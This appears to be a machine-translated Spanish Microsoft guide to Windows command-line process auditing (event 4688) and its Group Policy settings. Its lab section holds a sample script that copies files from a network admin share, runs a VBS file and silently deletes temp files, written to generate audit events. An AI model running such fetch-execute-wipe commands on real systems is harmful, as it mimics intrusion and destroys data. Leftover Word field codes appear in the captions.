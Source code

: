 ```yaml
---
ms.assetid: c8597cc8-bdcb-4e59-a09e-128ef5ebeaf8
title: Auditoría de proceso de línea de comandos
author: iainfoulds
ms.author: daveba
manager: daveba
ms.date: 05/31/2017
ms.topic: article
ms.openlocfilehash: d08032a01a1c3bf2fd03ba302d6eaba5162c317d
ms.sourcegitcommit: b115e5edc545571b6ff4f42082cc3ed965815ea4
ms.translationtype: MT
ms.contentlocale: es-ES
ms.lasthandoff: 10/30/2020
ms.locfileid: "93070747"
---
```

# <a name="command-line-process-auditing"></a>Auditoría de proceso de línea de comandos

>Se aplica a: Windows Server 2016, Windows Server 2012 R2

**Autor** : Diego Turner, Ingeniero de soporte técnico de nivel superior con el grupo de Windows

> [!NOTE]
> Este contenido está escrito por un ingeniero de asistencia al cliente de Microsoft y está destinado a los arquitectos de sistemas y administradores con experiencia que están buscando explicaciones técnicas más detalladas de características y soluciones de Windows Server 2012 R2 que los temas que se suelen proporcionar en TechNet. Sin embargo, no ha experimentado los mismos pasos de edición, por lo que parte del lenguaje puede parecer menos perfeccionado de lo que se encuentra normalmente en TechNet.

## <a name="overview"></a>Información general

-   El ID. de evento de auditoría de creación de procesos preexistente 4688 ahora incluirá información de auditoría para los procesos de línea de comandos.

-   También registrará el hash SHA1/2 del ejecutable en el registro de eventos de AppLocker.

    -   Aplicaciones y servicios Logs\Microsoft\Windows\AppLocker

-   Habilita a través de GPO, pero está deshabilitado de forma predeterminada

    -   "Incluir línea de comandos en eventos de creación de procesos"

![auditoría de línea de comandos](media/Command-line-process-auditing/GTR_ADDS_Event4688.gif)

**Figura SEQ figura \\ \* árabe 16 evento 4688**

Revise el ID. de evento 4688 actualizado en REF _Ref366427278 \h Figura 16.  Antes de esta actualización no se registra ninguna información de la **línea de comandos del proceso** .  Debido a este registro adicional, ahora podemos ver que no solo se ha iniciado el proceso de wscript.exe, sino que también se ha usado para ejecutar un script de VB.

## <a name="configuration"></a>Configuración
Para ver los efectos de esta actualización, tendrá que habilitar dos configuraciones de directiva.

### <a name="you-must-have-audit-process-creation-auditing-enabled-to-see-event-id-4688"></a>Debe tener habilitada la auditoría de creación de procesos de auditoría para ver el ID. de evento 4688.
Para habilitar la Directiva de creación de procesos de auditoría, edite la siguiente directiva de Grupo:

**Ubicación de la Directiva:** Configuración del equipo directivas de > > configuración de Windows > configuración de seguridad > configuración avanzada de auditoría > seguimiento detallado

**Nombre de la Directiva:** Auditar creación de procesos

**Compatible con:** Windows 7 y versiones posteriores

**Descripción/ayuda:**

Esta configuración de directiva de seguridad determina si el sistema operativo genera eventos de auditoría cuando se crea (inicia) un proceso y el nombre del programa o usuario que lo creó.

Estos eventos de auditoría pueden ayudarle a entender cómo se usa un equipo y realizar el seguimiento de la actividad del usuario.

Volumen de eventos: bajo a medio, según del uso del sistema

**Valor predeterminado:** No configurado

### <a name="in-order-to-see-the-additions-to-event-id-4688-you-must-enable-the-new-policy-setting-include-command-line-in-process-creation-events"></a>Para ver las adiciones al ID. de evento 4688, debe habilitar la nueva configuración de directiva: incluir línea de comandos en eventos de creación de procesos.
**Tabla SEQ tabla de la configuración de la \\ \* Directiva de proceso de línea de comandos 19**

|Configuración de Directiva|Detalles|
|------------------------|-----------|
|**Path**|Creación de procesos de Templates\System\Audit de administración|
|**Configuración**|**Incluir línea de comandos en eventos de creación de procesos**|
|**Configuración predeterminada**|No configurado (no habilitado)|
|**Compatible con:**|?|
|**Descripción**|Esta configuración de directiva determina la información que se registra en los eventos de auditoría de seguridad cuando se ha creado un nuevo proceso.<p>Esta configuración solo se aplica cuando está habilitada la Directiva de creación de procesos de auditoría. Si habilita esta Directiva, la información de la línea de comandos de cada proceso se registrará en texto sin formato en el registro de eventos de seguridad como parte del evento 4688 de creación de proceso de auditoría, "se ha creado un nuevo proceso", en las estaciones de trabajo y los servidores en los que se aplica esta configuración de directiva.<p>Si deshabilita o no establece esta configuración de Directiva, la información de línea de comandos del proceso no se incluirá en los eventos de creación de procesos de auditoría.<p>Valor predeterminado: no configurado<p>Nota: cuando esta configuración de directiva está habilitada, cualquier usuario con acceso para leer los eventos de seguridad podrá leer los argumentos de la línea de comandos para cualquier proceso creado correctamente. Los argumentos de la línea de comandos pueden contener información confidencial o privada como contraseñas o datos de usuario.|

![auditoría de línea de comandos](media/Command-line-process-auditing/GTR_ADDS_IncludeCLISetting.gif)

Si usa la Configuración de directiva de auditoría avanzada, deberá confirmar que la configuración de directiva de auditoría básica no la sobrescribe.  El evento 4719 se registra cuando se sobrescribe la configuración.

![auditoría de línea de comandos](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)

En el procedimiento siguiente se muestra cómo evitar conflictos bloqueando la aplicación de cualquier configuración de directiva de auditoría básica.

### <a name="to-ensure-that-advanced-audit-policy-configuration-settings-are-not-overwritten"></a>Para asegurarse de que no se sobrescribe la Configuración de directiva de auditoría avanzada
![auditoría de línea de comandos](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)

1.  Abra la consola de administración de directiva de grupo

2.  Haga clic con el botón secundario en Directiva predeterminada de dominio y, a continuación, haga clic en Editar.

3.  Haga doble clic en Configuración del equipo, haga doble clic en Directivasy, a continuación, haga doble clic en Configuración de Windows.

4.  Haga doble clic en configuración de seguridad, haga doble clic en directivas locales y, a continuación, haga clic en opciones de seguridad.

5.  Haga doble clic en Auditoría: forzar la configuración de subcategorías de la directiva de auditoría (Windows Vista o posterior) para invalidar la configuración de la categoría de directiva de auditoría y, a continuación, haga clic en Definir esta configuración de directiva.

6.  Haga clic en Habilitaday, a continuación, haga clic en Aceptar.

## <a name="additional-resources"></a>Recursos adicionales
[Auditar creación de procesos](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd941613(v=ws.10))

[Guía paso a paso de la directiva de auditoría de seguridad avanzada](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd408940(v=ws.10))

[AppLocker: preguntas más frecuentes](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee619725(v=ws.10))

## <a name="try-this-explore-command-line-process-auditing"></a>Pruebe esto: explorar la auditoría de procesos de línea de comandos

1.  Habilitar eventos de **creación de procesos de auditoría** y asegurarse de que no se sobrescribe la configuración de la Directiva de auditoría avanzada

2.  Cree un script que genere algunos eventos de interés y ejecute el script.  Observe los eventos.  El script usado para generar el evento en la lección tenía el siguiente aspecto:

    ```
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs
    del c:\systemfiles\temp\*.* /Q
    ```

3.  Habilitar la auditoría de procesos de línea de comandos

4.  Ejecutar el mismo script que antes y observar los eventos

